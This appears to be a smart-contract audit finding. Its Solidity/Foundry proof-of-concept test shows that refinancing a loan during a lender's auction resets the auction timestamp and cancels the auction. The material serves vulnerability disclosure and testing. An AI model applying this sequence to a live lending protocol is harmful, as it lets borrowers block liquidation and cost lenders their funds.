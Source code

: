 So the auction should end 1 day from the current block.timestamp. Then it is refinanced.

If refinance resets the auction timestamp, startAuctionTimestamp will be reset to type(uint256).max:

`assertEq(auctionTimestamp, type(uint256).max);`

This test passes so the proof/attack was successful


```solidity
    function test_refinance_during_auction() public {
        test_borrow();

        vm.startPrank(lender2);
        Pool memory p = Pool({
            lender: lender2,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100*10**18,
            poolBalance: 1000*10**18,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        lender.setPool(p);

        vm.startPrank(lender1);

        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;

        //start auction is called
        lender.startAuction(loanIds);


        vm.startPrank(borrower);
        Refinance memory r = Refinance({
            loanId: 0,
            poolId: keccak256(
                abi.encode(
                    address(lender2),
                    address(loanToken),
                    address(collateralToken)
                )
            ),
            debt: 100*10**18,
            collateral: 100*10**18
        });
        Refinance[] memory rs = new Refinance[](1);
        rs[0] = r;

        lender.refinance(rs);

        (,,,,,,,,uint auctionTimestamp,) = lender.loans(0);

        //assert that auction timestamp has reset
        assertEq(auctionTimestamp, type(uint256).max);

        
    }
```
